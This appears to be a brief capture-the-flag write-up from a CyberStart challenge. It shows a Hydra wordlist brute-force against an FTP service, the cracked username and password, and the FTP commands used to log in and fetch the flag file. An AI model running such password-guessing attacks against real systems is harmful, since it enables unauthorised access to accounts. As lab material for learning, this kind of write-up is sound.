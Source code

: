 retep@desktop:~/ctf/cyberstart/level8/12$ hydra -l secure_user -P ./words.txt services.cyberprotection.agency ftp -s 2121
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-10 15:58:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 909 login tries (l:1/p:909), ~57 tries per task
[DATA] attacking ftp://services.cyberprotection.agency:2121/
[STATUS] 267.00 tries/min, 267 tries in 00:01h, 642 to do in 00:03h, 16 active


[2121][ftp] host: services.cyberprotection.agency   login: secure_user   password: mutineers
[STATUS] 303.00 tries/min, 909 tries in 00:03h, 1 to do in 00:01h, 6 active


Then login passively

```
ftp -p services.cyberprotection.agency 2121
secure_user
mutineers
ls -l
get FLAG.txt
exit
```
